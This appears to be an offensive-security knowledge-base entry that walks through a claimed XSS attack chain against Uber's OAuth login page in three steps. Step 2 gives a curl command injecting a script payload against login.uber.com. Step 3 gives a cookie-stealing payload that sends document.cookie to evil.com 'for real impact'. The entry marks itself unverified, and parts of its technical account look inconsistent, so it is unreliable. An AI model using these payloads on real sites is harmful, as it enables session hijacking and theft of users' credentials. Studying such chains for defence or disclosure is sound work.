

---
tags:
  - xss
  - stored-xss
  - oauth
  - javascript
  - session-hijacking
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploiting-Stored-XSS-in-OAuth-Redirect-URI]]'
step_count: 3
techniques:
  - '[[JavaScript]]'
updated_at: '2025-12-13T23:56:03.731Z'
description: >-
  Exploits a stored XSS vulnerability in the redirect_uri parameter of Uber's
  OAuth authorization endpoint, allowing arbitrary JavaScript execution on the
  login page via unsanitized input reflected in the Privacy Policy URL.
skill_level: intermediate
impact_level: high
id: ec434fb8-68ed-4117-b5b5-f32bd902070f
validated: true
mitre_tactics:
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Stored XSS in Uber OAuth Redirect URI for Login Page Script Execution

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in Uber's OAuth flow to execute arbitrary JavaScript on the login page, potentially enabling session hijacking.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload testing
- Proxy tool like Burp Suite for intercepting requests

### Target Environment

- Web platform
- OAuth service at login.uber.com
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Public access to the Uber login page
- No credentials needed for initial submission
- Ability to craft and submit OAuth authorization requests

## Detailed Attack Procedures

### Step 1: Access the OAuth Authorization Endpoint

procedure: [[procedures/Exploiting-Stored-XSS-in-OAuth-Redirect-URI]]

**Objective**: Navigate to the vulnerable OAuth endpoint to prepare for payload injection.

**Instructions**: Open a browser and construct a URL to the OAuth authorize endpoint, such as `https://login.uber.com/oauth/v2/authorize?client_id=example&redirect_uri=example.com&response_type=code&scope=profile`. Use browser developer tools to inspect the page and identify the Privacy Policy link where input may be reflected.

**Expected Output**: The login page loads, displaying the OAuth form with a Privacy Policy URL.

**Success Indicators**:
- Endpoint accessible without errors
- Privacy Policy link visible on the page

### Step 2: Craft and Submit Malicious Redirect URI

procedure: [[procedures/Exploiting-Stored-XSS-in-OAuth-Redirect-URI]]

**Objective**: Inject a malicious JavaScript payload into the redirect_uri parameter to store it for later execution.

**Instructions**: Modify the redirect_uri parameter to include a payload like `https://evil.com?payload=<script>alert('XSS')</script>`. Submit the request via the OAuth form or using a tool like curl:

```bash
curl -X GET "https://login.uber.com/oauth/v2/authorize?client_id=example&redirect_uri=https://evil.com%3Cscript%3Ealert('XSS')%3C/script%3E&response_type=code&scope=profile"
```

Intercept and modify if using a proxy. The unsanitized input will be passed to the Privacy Policy URL construction.

**Expected Output**: Request submitted successfully; payload stored in the backend or reflected in the Privacy Policy link.

**Success Indicators**:
- No validation errors on submission
- Payload appears in the generated Privacy Policy URL (inspect source)

### Step 3: Trigger Execution and Observe Impact

procedure: [[procedures/Exploiting-Stored-XSS-in-OAuth-Redirect-URI]]

**Objective**: Access the affected page to execute the stored script, demonstrating potential for session theft.

**Instructions**: After submission, reload the login page or click the Privacy Policy link. The stored payload executes as JavaScript in the page context. For real impact, replace alert with code to steal cookies: `<script>document.location='https://evil.com?cookie='+document.cookie</script>`.

**Expected Output**: JavaScript alert pops or network request to attacker server with stolen data.

**Success Indicators**:
- Script executes (alert or exfiltration request)
- Arbitrary code runs in login page context

## Attack Chain Summary

### Key Achievements

1. Identified unsanitized redirect_uri handling in OAuth flow
2. Stored malicious JavaScript via Privacy Policy URL reflection
3. Achieved arbitrary script execution on high-privilege login page

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
